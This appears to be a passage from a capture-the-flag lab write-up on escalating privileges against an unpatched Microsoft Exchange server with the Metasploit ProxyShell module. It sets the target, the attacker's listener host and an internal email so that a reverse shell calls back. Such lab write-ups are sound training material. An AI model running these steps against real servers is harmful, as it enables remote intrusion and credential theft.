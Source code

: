     PrivExchange

These are widely documented vulnerabilities that allow attackers to escalate privileges, execute arbitrary commands, or even dump credentials — especially if Exchange is misconfigured or unpatched.

## Escalation Process To NT-authority

Based on the findings in TODO.txt, it was confirmed that the Microsoft Exchange server is unpatched — leaving it vulnerable to the ProxyShell attack chain.

To exploit this, I used the Metasploit module:
```
exploit/windows/http/exchange_proxyshell_rce
```
![screenshot](assets/screenshots/Lookback/15.png)

Before executing the exchange_proxyshell_rce Metasploit module, I configured the required parameters to ensure a successful reverse shell callback:

```
set EMAIL dev-infrastracture-team@thm.local
set RHOSTS 10.10.252.14
set LHOST 10.23.26.210
```

EMAIL: A valid internal address discovered from the TODO.txt file — required for the ProxyShell exploit chain to work.

RHOSTS: The target machine's IP address.
